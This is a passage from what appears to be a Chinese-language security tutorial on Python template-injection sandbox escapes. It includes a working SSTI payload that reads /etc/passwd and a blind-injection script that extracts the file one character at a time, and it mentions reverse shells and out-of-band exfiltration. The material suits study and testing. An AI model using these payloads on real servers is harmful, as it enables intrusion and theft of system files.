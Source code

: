 通过`reload`进行重载

```
reload(__builtins__)
```
- 其他一些小trick
比如`func.__code__.co_consts` 可以获得对应函数的上下文常量



## 0x04 盲注

盲注一般有如下几种思路
<li>反弹shell<br>
通过rce反弹一个shell出来绕过无回显的页面</li>
<li>带外注入<br>
通过requestbin或dnslog的方式将信息传到外界</li>
- 纯盲注
利用index方法

> Python index() 方法检测字符串中是否包含子字符串 str ，如果指定 beg（开始） 和 end（结束） 范围，则检查是否包含在指定范围内，该方法与 python find()方法一样，只不过如果str不在 string中会报一个异常。

比如

```
`{``{`(request.__class__.__mro__[2].__subclasses__[334].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()|string).index("r",0,3)`}``}`
```

如果`/etc/passwd`的第一个字符是`r`那么就不会触发异常，如果不是就会触发异常，根据这个特点可以进行盲注

如下是一个盲注脚本

```
import requests
from string import printable as pt

host = "http://127.0.0.1:8765/"
res  = ''

for i in range(0,40):
    for c in pt:
        payload = '`{``{`(request.__class__.__mro__[2].__subclasses__[334].__init__.__globals__["__builtins__"]["file"]("/etc/passwd").read()|string).index("%c",%d,%d)`}``}`' % (c,i,i+1) 
        param = `{`
            "name":payload
        `}`
        req = requests.get(host,params=param)

        if req.status_code == 200:
            res += c
            break
    print(res)
```

